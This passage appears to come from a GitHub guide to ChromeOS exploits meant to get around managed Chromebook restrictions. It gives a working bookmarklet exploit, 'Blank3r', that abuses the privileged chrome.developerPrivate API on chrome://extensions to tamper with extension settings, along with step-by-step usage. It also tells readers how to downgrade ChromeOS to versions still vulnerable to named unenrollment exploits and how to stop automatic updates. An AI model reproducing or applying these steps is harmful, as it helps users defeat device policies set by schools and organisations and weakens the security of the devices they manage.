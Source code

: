 **Extra notes**
- Your Chromebook will no longer automatically update. (as long as you have the flag enabled)
- And you must be able to enable flags if it ain't blocked otherwise, this exploit won't work

[**🔼 Back to top**](#ext-remover)

## Blank3r

Blank3r is an exploit that allows you to run bookmarklets on privileged pages, such as the Chrome extensions page. This exploit was made with Point Blank as well.

### Requirements
- Bookmarklets enabled

### Getting started
1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```
2. Navigate to `chrome://extensions`.
3. Click on an extension that YOU installed from the Chrome Web Store > Details.
4. In the URL bar, copy the string of letters and numbers after the `/?id=`.
5. Click "View in Chrome Web Store" and spam the escape key. If it loads into Chrome Webstore try again, if it is a blank screen click the bookmarklet.
5. Paste the ID of the extension into the prompt separated by commas.

If you close the tab, the exploit will stop working.

[**🔼 Back to top**](#ext-remover)

## Downgrading *Change versions*

Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, such as LTBEEF, SH1MMER, or CryptoSmite. This is a built-in feature of ChromeOS.

Please do note that depending on your `kernver=` you may not be able to downgrade to certain versions. More info is at the [CryptoSmite Unenrollment](#cryptosmite-unenrollment) section.

### Requirements
- A USB thumb drive with at least 8GB of storage, however 16GB (or more) is recommended.
- A personal computer with access to downloading the Chromebook Recovery Utility.

### Setup

1. Navigate to `chrome://version` on the Chromebook you wish to downgrade. If that is blocked try `chrome://system/:~:text=CHROMEOS_RELEASE_DESCRIPTION`, and check for your board under `Platform`. For me, that would be octopus.

![chrome://version](img/chromeos-check-board.png)
